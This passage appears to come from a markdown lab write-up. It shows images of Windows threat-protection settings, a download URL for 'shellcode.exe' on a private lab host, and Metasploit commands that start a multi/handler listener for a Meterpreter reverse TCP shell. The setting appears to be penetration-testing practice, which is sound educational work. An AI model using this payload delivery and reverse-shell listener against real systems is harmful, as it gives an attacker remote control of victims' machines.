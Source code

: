 ![Windows Virus & Threat Protection Settings](images/WindowsVirus.png)

	- URL: http://10.0.2.4/Downloads/shellcode.exe

![Webpage to download payload](images/WindowsWebpage.png)

---

## Run Listener in Metasploit
```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.2.4
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

---